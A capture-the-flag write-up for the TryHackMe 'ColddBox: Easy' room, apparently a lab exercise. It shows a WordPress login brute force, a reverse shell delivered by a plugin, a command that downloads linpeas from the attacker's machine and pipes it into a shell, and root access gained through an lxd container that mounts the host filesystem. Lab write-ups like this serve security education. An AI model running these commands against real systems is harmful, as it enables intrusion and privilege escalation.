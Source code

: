 # > ColddBox: Easy
<https://tryhackme.com/room/colddboxeasy>
-------------------------
It is a cool box (literally). So lets start some Hacking …
So lets start with some nmap scan to enumerate which all ports are open.
```bash
# nmap -T4 -sV -A target > nmap_scan.txt 

```
![1](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/1.png)

So port 80 is open that I already knew by opening the ip in web browser.
Since it was a web page I began directory search to see is there any broken
access control.
```bash
# gobuster dirb -u target:80 --wordlist /usr/share/wordlists/dirb/small.txt -e -o dir.txt 
```
![2](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/2.png)

There is a ‘/hidden’ directory on the target that is accessible and gave
potential users on the target.

![3](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/3.png)

And since web page is made on wordpress and there is a login page, great
option to bruteforce wordpress login is using wpscan.

```bash
$ wpscan --url http://target/wp-login.php -e u -P /usr/share/wordlist/rockyou.txt 

```
![4](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/4.png)

Bingo!!! we have a password for c0ldd user. After login we have an
admin dashboard.

Lest get a reverse shell on the target using WP plugin. I found this simple
reverse shell script on
<https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-she
ll>.

![5](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/5.png)

I started a netcat listener on my machine on port 8000 ```bash # nc -lvnp 8000 ```
and got a reverse shell by activating our plugin and found that www-data
user have very less permissions thus I enumerated the target using
[linpeas.sh]( https://github.com/carlospolop/privilege-escalation-awesome-scripts-suit
e/tree/master/linPEAS ).Download the linpeas.sh file form Github on your
machine,cd to the downloaded directory and start a simple python server on
your machine ```bash # python3 -m http.server 1234 ``` and on target run it using
``` $ curl http://<attackbox_ip>:1234/linpeas.sh | sh ```, This will directly
run the shell script on the target machine.

![6](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/6.png)

This gave away wp-config.php file that contained password of user _c0ldd_.
To su to _c0ldd_ user we need a stable shell, stablizing shell by this great
one-liner ```bash $ pyhton3 -c ‘import pty;pty.spawn(“/bin/bash”)  $ su c0ldd ``` 
and use password _cybersecurity_ to get access. Now cat the user.txt flag in
/home/c0ldd directory ```bash $ cat /home/c0ldd/user.txt ```.

![7](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/7.png)

Hurray!! got the user flag.

##### Now lets get root access.

Linpeas enumeration also gave potential services, users that could be
exploited. Luckly lxd (container service) is present and accessible by _c0ldd_ user.

![8](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/8.png)

Lets exploit this service, Download the vulnerable container image using 
[alpine for lxd](https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml)
cd to download dir and start http server and transfer the file to target machine
using wget.

>Add the image :
```bash $ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
$ lxc image list -- You can see your new imported image
```
>Create a container and add root path
```bash
$ lxc init alpine privesc -c security.privileged=true
$ lxc list 
$ lxc config device add privesc host-root disk source=/ path=/mnt/root
recursive=true
```
>Execute the container:
```bash
$ lxc start privesc
$ lxc exec privesc /bin/sh
```

As this container is mounted with /root directory we can access root.txt
inside it ```bash $ cat /mnt/root/root.txt ```

![9](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/9.png)

> With that the we rooted the box.
